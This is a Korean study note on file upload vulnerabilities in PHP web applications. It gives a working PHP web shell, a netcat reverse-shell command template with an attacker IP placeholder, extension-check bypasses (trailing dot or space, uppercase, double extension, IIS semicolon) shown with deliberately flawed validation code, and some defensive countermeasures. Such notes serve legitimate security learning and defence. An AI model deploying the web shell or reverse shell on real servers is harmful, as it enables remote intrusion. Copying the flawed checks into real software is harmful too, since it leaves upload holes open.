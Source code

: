 ```yaml
---
CMDS: Security
관련 문서:
  - "[[109 Security]]"
tags:
  - "#파일_업로드_취약점"
---
```

정상파일이 아닌 비정상파일을 업로드하는 취약점

![[90. Settings/92. Attachments/Untitled 2.png|Untitled 2.png]]

  

공격 원리

![[Untitled 1.png]]

  

웹쉘이란 : 웹 페이지 상에서 원격지 서버의 시스템 명령어를 실행 할 수 있는 도구

  

언어별 시스템 함수

![[90. Settings/92. Attachments/Untitled 2 2.png|Untitled 2 2.png]]

  

실습

1. 아래 php 파일을 웹 사이트에 업로드

```PHP
<?php
  $cmd = $_GET["cmd"];

  if(!empty($cmd)) {
    $result = shell_exec($cmd);
  }
?>

<form action="webshell.php" action="GET">
  <input type="text" name="cmd">
  <input type="submit" value="EXECUTE">
</form>
<hr>
<?=$result?>
```

1. 일반적으로 upload 하위 폴더에 파일 저장
    
    - 127.0.0.1/insecure_website/upload/ 를 입력해서 해당 폴더가 존재하는지 확인
        
        → 디렉토리가 존재하면 403 Forbidden 오류 발생
        
        → 디렉토리가 없다면 404 Not Found 오류 발생
        
    - 올린 파일 webshell.php에 접속해서 시스템 명령어 실행
    
      
    

파일 업로드 취약점을 이용한 Reverse-Shell 공격

1. 공격자는 웹쉘과 netcat을 서버에 업로드
2. 공격자 PC에서 [netcat 프로그램 명] -lvp [임의의 포트] 명령어를 통해 특정 포트를 리스닝 상태로 만듦
3. 업로드 한 웹쉘에 접속
4. [netcat 프로그램 명] [공격자 IP] [임의의 포트] -e [OS에 맞는 쉘 프로그램 이름] 명령어 입력 후 공격

  

검증 로직 유형 : 정상적인 파일은 업로드, 비정상적인 파일은 업로드 거부

1. 확장자 검증 : 파일 확장자를 이용해서 유효성 검사
    - 블랙 리스트 방식 : 허용하지 않을 확장자 정의 ⇒ 다수 파일 업로드
        
        → 다양한 파일 업로드가 가능하지만, 우회 가능성이 존재
        
    - 화이트 리스트 방식 : 허용할 확장자 정의 ⇒ 특정 파일 업로드
        
        → 우회 가능성이 제한적이지만, 다양한 파일 업로드가 불가능
        
2. 이미지 검증
3. 파일 사이즈 검증

  

잘못된 대응방안 사례

1. 검증 되지 않은 확장자 사용 ⇒ 블랙 리스트 방식
    
    ```PHP
    \#검증 로직
    $file_info = pathinfo($uploadPath);
    $ext = $file_info["extension"];
    
    if($ext == "php") {
    	echo("<script>alert('허용된 확장자 아님.');history.back(-1);</script>");
    	exit;
    }
    ```
    
    php는 업로드가 안되지만, html은 업로드가 가능
    
    → html도 서버 사이드 스크립트로 동작 가능하게 설정되어 있기 때문에 확장자만 .html로 바 꾼 뒤에 업로드 하면 업로드가 가능하고, 정상적으로 기능이 동작함
    
      
    
2. 빈 값 검증 미흡 ⇒ 블랙 리스트 방식, 윈도우 서버 환경
    
    2-1 ) webshell.php.
    
    파일 업로드시 webshell.php. 으로 업로드 할 시 마지막에 . 뒤에 확장자가 없기 때문에 업로드가 성공하게 되고, 윈도우에서 빈값으로 인식해서 .가 제거되므로 webshell.php로 파일이 업로드
    
    ```PHP
    \#검증 로직
    $file_info = pathinfo($uploadPath);
    $ext = $file_info["extension"];
    
    if($ext == "php" || $ext == "html" || $ext == "") {
    	echo("<script>alert('허용된 확장자 아님.');history.back(-1);</script>");
    	exit;
    }
    ```
    
    2-2) webshell.php[공백]
    
    php와 php[공백] 은 다른 확장자로 인식되어 파일 업로드가 가능하고, 윈도우는 기본적으로 trim 제거하기 때문에 webshell.php로 업로드 가능
    
    ```PHP
    \#검증 로직
    $file_info = pathinfo($uploadPath);
    $ext = trim($file_info["extension"]);
    
    if($ext == "php" || $ext == "html" || $ext == "") {
    	echo("<script>alert('허용된 확장자 아님.');history.back(-1);</script>");
    	exit;
    }
    ```
    
      
    
3. 대문자 검증 미흡 ⇒ 블랙 리스트 방식, 윈도우 서버 환경
    
    확장자에 대문자를 입력해서 우회 가능
    
    ⇒ strtolower 함수 적용
    
    ```PHP
    \#검증 로직
    $file_info = pathinfo($uploadPath);
    $ext = strtolower(trim($file_info["extension"]));
    $ext_arr = array("","php","html");
    
    if(inarray($ext, $ext_arr)) {
    	echo("<script>alert('허용된 확장자 아님.');history.back(-1);</script>");
    	exit;
    }
    ```
    
      
    
4. 잘못된 확장자 파싱 ⇒ 블랙 리스트 / 화이트 리스트 모두 해당
    
    검증 로직을 다음과 같이 짰을 때
    
    ```PHP
    \#검증 로직
    $ext_offset=strpos($uploadFile,".");
    $ext = substr($uploadFile, $ext_offset + 1, 3);
    
    if($ext != "png" && $ext != "gif" && $ext != "jpg") {
    	echo("<script>alert('파일 업로드를 실패 하셨습니다.');history.back(-1);</script>");
    	exit;
    }
    ```
    
    webshell.png.php 로 입력할 시 우회 가능
    
    → strrpos 함수를 이용할 시 뒤에서부터 값을 인식하기 때문에 strpos 대신 사용하면 우회 불가능
    

  

IIS 세미콜론 취약점

![[Untitled 3.png]]

파일명에 세미콜론이 들어있으면 경고창 출력 혹은 로직 종료

  

대응 방안

1. 파일명에 대한 검증
    
    - 확장자 검증 후 서버측에서 파일명 생성
    - 확장자를 검증할 때 파일명을 뒤에서부터 읽어야 함
    
    ![[Untitled 4.png]]
    
    ![[Untitled 5.png]]
    
    ![[Untitled 6.png]]
    
    사용자 파일 명을 서버에서 바로 사용하지 않고, 랜덤한 문자열로 바꾸어 데이터베이스에 저장
    
      
    
2. 올바른 업로드 경로 설정 : Server Side Script 가 실행되지 않는 경로
    
    웹 디렉터리 이외의 경로 혹은 스크립트 실행 권한 제거 + 경로 변조 검증 로직